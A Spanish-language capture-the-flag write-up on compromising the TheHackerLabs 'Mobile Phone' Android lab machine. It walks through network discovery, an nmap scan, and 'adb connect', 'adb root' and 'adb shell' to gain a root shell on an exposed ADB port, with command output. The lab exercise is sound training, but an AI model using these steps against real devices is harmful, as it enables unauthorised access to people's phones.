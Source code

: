 Lo primero que haremos sera ir a la pagina de "TheHackerLabs" y concretamente a la siguiente direccion para descargar la maquina "Mobile Phone":

https://thehackerslabs.com/wp-content/uploads/2024/06/The%20Hackers%20Labs%20-%20Mobile%20Phone.zip

Una vez descargada (es una ".ova"), y montada en nuestro programa de maquinas virtuales, empezaremos usando un ARP-SCAN (o NETDISCOVER) para hallar la IP de la maquina victima:
```
arp-scan -I eth0 --localnet
netdiscover -i eth0 -r 192.168.1.0/24
```
Despues, pasaremos a realizar un NMAP:
```
nmap -p- --open -sS -sC -sV --min-rate 3000 -n -vvv -Pn IPMAQUINAVICTIMA -oN NOMBREDEARCHIVO
```
descubriendo el siguiente puerto abierto:
```
Discovered open port 5555/tcp on 192.168.1.145
```
En Android, el puerto 5555 es el puerto por defecto de "adb" que es una herramienta que se utiliza para conectar nuestro movil con nuestro PC, de tal forma que podamos cambiarle la ROM, o actualizar aplicaciones, entre otras cosas.

Como informacion adicional tenemos:
```
PORT     STATE SERVICE  REASON         VERSION
5555/tcp open  freeciv? syn-ack ttl 64
MAC Address: 08:00:27:97:06:EB (Oracle VirtualBox virtual NIC)
```
Bien, entonces vamos a ir a la pagina "HackTricks" para investigar un poco mas el servicio que corre por este puerto, y concretamente a esta direccion:
https://book.hacktricks.xyz/v/es/network-services-pentesting/5555-android-debug-bridge

Si leemos, vemos que tal y como hemos dicho al principio, este puerto hace referencia al Android Debug Bridge (adb), y que a dia de hoy, si se esta ejecutando este servicio y nos podemos conectar al dispositivo, es relativamente sencillo obtener una shell dentro del sistema.

Asi que vamos a probar si funciona, empezando por escribir en la terminal el comando:
```
adb connect 192.168.1.145   <=== Igual nos piden instalar "adb". OJO !!
```
recibiendo la siguiente informacion por pantalla:
```
* daemon not running; starting now at tcp:5037
* daemon started successfully
connected to 192.168.1.145:5555
```
Perfecto, nuestro siguiente paso ahora seria intentar escalar privilegios y convertirnos en administrador "root". Para ello escribimos:
```
adb root
```
y parece que funciona:
```
restarting adbd as root
```
Y finalmente nos quedaria intentar conseguir una "shell", que haremos con el comando:
```
adb shell
```
Donde vemos que funciona, incluso pudiendo navegar perfectamente por sus directorios:
```
root@x86_64:/ # whoami
root

root@x86_64:/ # ls
acct
cache
charger
config
d
data
default.prop
dev
etc
file_contexts
fstab.android_x86_64
init
init.android_x86_64.rc
init.bluetooth.rc
init.environ.rc
init.rc
init.superuser.rc
init.trace.rc
init.usb.configfs.rc
init.usb.rc
init.zygote32.rc
init.zygote64_32.rc
lib
mnt
oem
proc
property_contexts
sbin
sdcard
seapp_contexts
selinux_version
sepolicy
service_contexts
storage
sys
system
ueventd.android_x86_64.rc
ueventd.rc
vendor

root@x86_64:/ # cd storage

root@x86_64:/storage # ls
emulated
self

root@x86_64:/storage # cd self
root@x86_64:/storage/self # ls
primary

root@x86_64:/storage/self # cd primary
root@x86_64:/storage/self/primary # ls
Alarms
Android
DCIM
Download
Movies
Music
Notifications
Pictures
Podcasts
Ringtones
storage

root@x86_64:/storage/self/primary # 
```
Y listo !! Ya tendriamos esta maquina Android hecha.
Como se ha visto, es una maquina muy sencillita y esta bien como primer contacto con Android, ya que con tres simples comandos hemos conseguido tener acceso total a ella.
